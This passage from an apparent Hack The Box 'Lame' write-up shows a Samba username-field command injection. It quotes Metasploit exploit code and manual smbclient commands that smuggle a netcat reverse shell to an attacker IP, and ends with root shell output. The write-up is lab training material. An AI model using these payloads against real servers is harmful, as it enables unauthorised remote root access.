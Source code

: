 This part of the Metasploit module will send the payload.

```ruby
def exploit

    connect

    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
        simple.client.negotiate(false)
        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
        # nothing, it either worked or it didn't ;)
    end

    handler
end
```

We can see that the payload is in the username field. We can exploit this by specifying a username with our payload to smbclient when connecting to the server.

```bash
luc@kali:~/HTB/Lame$ smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.16 443`'
Enter =`NOHUP NC -E \bin/sh 10.10.14.16 443`'s password:
session setup failed: NT_STATUS_LOGON_FAILURE
```

We don't get a session back to our netcat listener and we can clearly see why. `nohup nc -e /bin/sh` is changed to `NOHUP NC -E \bin/sh` breaking our payload.

Smbclient does have another way of logging in, we first login anonymous to the tmp share where we have anonymous access. When connected we use the logon command that's used to change to another user account. We supply this with our username that contains the payload and an empty password.

```bash
luc@kali:~/HTB/Lame$ smbclient //10.10.10.3/tmp
Enter WORKGROUP\luc's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.16 443`"
Password:
session setup failed: NT_STATUS_IO_TIMEOUT
```

```bash
luc@kali:~/HTB/Lame$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:34076.
id
uid=0(root) gid=0(root)
```
